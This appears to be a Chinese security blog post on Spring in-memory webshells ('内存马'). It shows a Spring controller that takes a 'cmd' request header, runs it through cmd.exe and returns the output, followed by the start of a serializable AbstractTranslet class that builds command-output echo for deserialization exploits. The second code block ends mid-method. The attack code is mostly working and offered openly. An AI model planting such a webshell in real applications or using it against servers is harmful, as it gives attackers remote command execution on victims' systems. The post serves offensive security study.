 title: Spring内存马学习
author: bmth
tags:
  - 内存马
categories:
  - java
top_img: 'https://img-blog.csdnimg.cn/92903ca4716e4f9bbd1b3c88e8e4896d.png'
cover: 'https://img-blog.csdnimg.cn/92903ca4716e4f9bbd1b3c88e8e4896d.png'
date: 2022-09-27 10:36:00
---
![](https://img-blog.csdnimg.cn/92903ca4716e4f9bbd1b3c88e8e4896d.png)


## Spring回显
写一个controller测试一下，发现可以通过`ServletRequestAttributes`直接获取`HttpServletRequest`和`HttpServletResponse`
并且`RequestContextHolder.getRequestAttributes()`可以获取`RequestAttributes`
```java
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.ResponseBody;
import java.io.*;

@Controller
public class SpringMVCTestController {
    @ResponseBody
    @RequestMapping(value="/echo", method = RequestMethod.GET)
    public void Test() throws IOException {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();

        String cmd = httprequest.getHeader("cmd");
        if(cmd != null && !cmd.isEmpty()){
            String res = new java.util.Scanner(Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",cmd}).getInputStream()).useDelimiter("\\A").next();
            httpresponse.getWriter().println(res);
        }
    }
}
```
![](https://img-blog.csdnimg.cn/f0fe37c5c6a043f4b9d366efee178244.png)

最后构造出来的代码：
```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Scanner;

public class SpringEcho extends AbstractTranslet implements Serializable {
    public SpringEcho() throws Exception{
        Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
        Method m = c.getMethod("getRequestAttributes");
        Object o = m.invoke(null);
        c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
        m = c.getMethod("getResponse");
```